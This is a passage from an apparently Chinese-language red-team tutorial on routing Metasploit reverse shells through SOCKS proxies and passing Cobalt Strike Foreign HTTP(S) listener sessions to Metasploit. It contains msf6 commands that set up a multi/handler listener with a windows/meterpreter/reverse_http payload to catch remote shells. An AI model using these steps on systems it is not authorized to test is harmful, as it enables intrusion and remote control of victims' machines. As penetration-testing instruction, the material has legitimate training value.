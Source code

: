 如果还想 MSF 通过 Socks 代理获取 Shell，需要开启 `ReverseAllowProxy` 选项。

```plaintext
msf6 > setg ReverseAllowProxy true
ReverseAllowProxy => true
```

临时无需代理可以用 unsetg 取消 MSF 全局代理。

```plaintext
unsetg Proxies
```

后面 MSF 直接运行 Explit 利用程序就能获取 Shell。

#### MSF 本地 SSH 动态端口转发 CS Foreign HTTP(S) 监听器流量

Listener 设置 Payload 为 Foreign HTTP(S)，主机填 Server 地址。

![监听器 Payload 查看.png](assets/1708583825-7f25b5cae2bf4d6e4fe5e9c80db9801f.png)

MSF 设置 Payload 与 CS 中对应：

-   windows/foreign/reverse\_http -> windows/meterpreter/reverse\_http
-   windows/foreign/reverse\_https -> windows/meterpreter/reverse\_https

本地 MSF 设置完 run 起来监听 MSF 本地地址和端口，等待 Shell 连接。

```plaintext
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_http
msf6 exploit(multi/handler) > set lhost 1.1.1.1
msf6 exploit(multi/handler) > set lport 1111
msf6 exploit(multi/handler) > run

[*] Stared HTTP reverse handler on http://1.1.1.1:1111
```
